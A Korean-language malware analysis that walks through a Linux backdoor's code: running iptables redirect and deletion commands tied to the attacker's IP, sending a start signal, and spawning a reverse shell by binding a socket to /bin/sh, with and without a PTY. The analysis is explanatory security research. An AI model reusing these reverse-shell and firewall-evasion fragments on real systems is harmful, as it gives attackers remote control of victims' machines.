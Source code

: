     - 이후 쉘 실행 시에 사용할 환경 변수와 인자들을 초기화하는 과정이다.

3. **iptables 설정 부분(getshell 내에서 호출 시)**

    ```c
    if (rcmd != NULL)
        system(rcmd);
    if (dcmd != NULL)
        system(dcmd);
    ```

    - `getshell` 함수에서 호출 시 전달한 명령 문자열 인자 `rcmd`, `dcmd`를 `system` 함수로 실행하는 부분이다.
    - 수행되는 명령
        - `/sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d`
            - `%s` : 공격자 IP 주소
            - 첫 번째 `%d` : 공격자가 요청한 port 번호
            - 두 번째 `%d` : 임의 선택된 port
        - `/sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT`
            - `%s` : 공격자 IP 주소

4. **공격자에게 시작 신호 전송**

    ```c
    write(sock, "3458", 4);
    // ssize_t write(int fd, const void *buf, size_t count)
    ```

    - 열린 소켓으로 `3458` 문자열을 전송한다.

5. **PTY를 생성 시도 후 reverse shell 제공**
    - open_tty 함수를 통해 PTY (Pseudo-Terminal) 생성을 시도하여, 생성했을 경우에는 **완전한 터미널 기능을 공격자에게 제공**하고, 생성하지 못했을 경우에는 **제한적인 터미널 기능을 공격자에게 제공한다.**
    - `open_tty` 수행
        - 함수 내부에서 PTY를 생성하는 시도를 하고, 생성 성공 여부에 따라 다른 동작을 하게 된다.
        - PTY 생성 성공 시에 `pty` 변수에는 **마스터**의 파일 디스크립터가 저장되고(`ptym_open` 함수에서 return), `tty` 변수에는 **슬레이브**의 파일 디스크립터가 저장된다.(`ptys_open` 함수에서 return)

    1. **PTY 생성 실패 시**

        ```c
        if (!open_tty()) {
        		    if (!fork()) {
        		            dup2(sock, 0);
        		            dup2(sock, 1);
        		            dup2(sock, 2);
        		            execve(sh, argvv, envp);
        		    }
        		    close(sock);
        		    return 0;
        }
        ```

        - 실패 시에 reverse shell 역할을 수행하게 될 자식 프로세스를 생성한다.(`fork()`)
        - 자식 프로세스는 `dup2()` 함수를 통해 자식 프로세스의 모든 입력(stdin, 파일 디스크립터 0번), 출력(stdout, 파일 디스크립터 1번), 에러(stderr, 파일 디스크립터 2번)를 소켓 통신으로 처리 지정한다.
        - `execve()` 함수를 통해 현재 실행 중인 자식 프로세스의 코드를 `/bin/sh` 쉘로 완전히 교체한다.
        - PTY 연결에 실패하였으므로, PTY 없이 단순히 소켓을 통해 쉘의 입출력을 직접 연결하게 되고, 이 시점부터 자식 프로세스는 더 이상 이후의 코드를 실행하지 않고, 시스템 쉘인 `/bin/sh`가 되어 공격자에게 reverse shell을 제공한다.
        - 부모 프로세스는 PTY를 생성하지 못했으므로, 소켓을 닫고(`close(sock)`), `return`하여 `packet_loop()` 함수로 돌아간다.
